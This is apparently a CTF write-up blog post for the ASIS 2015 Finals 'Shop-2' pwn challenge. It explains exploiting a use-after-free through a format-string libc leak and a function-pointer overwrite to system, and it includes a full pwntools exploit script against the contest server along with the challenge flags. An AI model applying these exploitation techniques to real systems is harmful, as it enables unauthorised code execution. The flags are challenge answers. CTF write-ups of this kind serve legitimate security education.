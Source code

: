 ```yaml
---
layout: post
title: "ASIS 2015 Finals: Shop-2"
modified: 2015-10-14
tags: asis, asis2015finals, pwn
---
```


The second part of the challenge was exploiting a UAF (use-after-free) vulnerability.

This could be triggered if the admin deleted a "Bragisdumu" (btw what is a Bragisdumu!? :D).

But there were some restrictions, for example: the admin could only delete items if there were no stock of it, so we had to buy them first. But you could not buy any amount of them, only 16, so you had to buy the Knight Rider one.

Although the program tried to nullify the object, but it did not nullify the pointer, but the active field of the pointed object. And then deleted the object. So it did not trigged the vulnerability by itself, you also had to use a long enough username + password.

To make the exploit stable I had to leak some addresses. To do this I overwrite the whole item structure until the ptr value:

{% highlight text %}
00000000 Item            struc ; (sizeof=0x88)   ; XREF: .data:globItemStructs9r
00000000 idx             dd ?                    ; XREF: .data:globItemPtrs16o
00000004 inited          db ?
00000005 name            db 100 dup(?)
00000069 mostPopular     db ?
0000006A align1          db 6 dup(?)
00000070 price           dq ?
00000078 stock           dd ?
0000007C align2          dd ?
00000080 ptr             dq ?
00000088 Item            ends
{% endhighlight %}

This way the address of the KnightRider preview function is leaked out, then I logged out and logged in with username which overwrite the preview function call (0x1275) to printf in the PLT (0xda0). As the parameter for this call is the Item structure's address which is fully controlled by me I could sent in a format string which contained a lot of "%p"'s, thus leaking out the libc base address from the stack (among other things).

Then in the next round I simple overwrite the pointer with the calculated system address and got a shell :)

The flag was:
{% highlight text %}
ASIS{5249b4cc1527739c57fbd04ab14292ca}
{% endhighlight %}

### Exploit code

{% highlight python %}
#!/usr/bin/env python
from pwn import *
import re

adminPass = "ASIS{304b0f16eb430391c6c86ab0f3294211}"

r = remote('185.106.120.220', 1337)

r.send("guest\nguest\n2\n3\n2\n3\n8\nadmin\n"+adminPass+"\n5\n3\n8\nguest\nguest"+"A"*31+"\x01"+"C"*267+"\n3\n")
result = r.recvuntil("your orders?")
KnightRiderAddrStr = re.search('CCCC+(.*?), price', result, re.DOTALL).group(1) + '\x00\x00'
print 'KnightRider str = %r' % KnightRiderAddrStr
KnightRiderAddr = u64(KnightRiderAddrStr)
printfAddr = KnightRiderAddr - 0x1275 + 0xda0
print 'KnightRider addr = %x' % KnightRiderAddr
print 'printf addr = %x' % printfAddr

fs="%p|"*30;
r.send("0\n8\nguest\nguest"+"A"*31+"\x01|"+fs+"D"*(122-len(fs))+p64(printfAddr)+"\n3\n1\n")
r.recvuntil("your orders?")
leaks = r.recvline().split('|')
print leaks
baseLeak = int(leaks[4][2:], 16)
print "leak = %x" % baseLeak
systemAddr = baseLeak - 0x7ffff7dd4060 + 0x7ffff7a5b640
print "system = %x" % systemAddr

r.send("8\nguest\nguest"+"A"*27+"sh\x00\x00\x01"+"C"*123+p64(systemAddr)+"\n3\n1\n")
r.recvuntil("your orders?")
r.send('cat flag\n')
print 'Flag =' + r.recvline()
r.interactive()
{% endhighlight %}
